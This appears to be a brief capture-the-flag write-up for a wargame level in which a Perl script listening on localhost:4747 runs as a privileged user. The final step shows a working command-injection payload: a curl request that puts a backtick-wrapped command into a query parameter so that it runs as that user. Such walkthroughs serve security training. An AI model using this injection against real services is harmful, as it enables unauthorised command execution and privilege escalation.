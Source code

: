 ## Step 1
> ls ~

We saw the file ``level04.pl``.

## Step 2
We saw in it the commentary ``# localhost:4747``. We deduced that the program was runing in this port.

## Step 3
> ls -l level04.pl

The file is executed by the user flag04, even if we, as level04, do it.

## Step 4
> curl localhost:4747?x=\`getflag\`

The flag is printed.
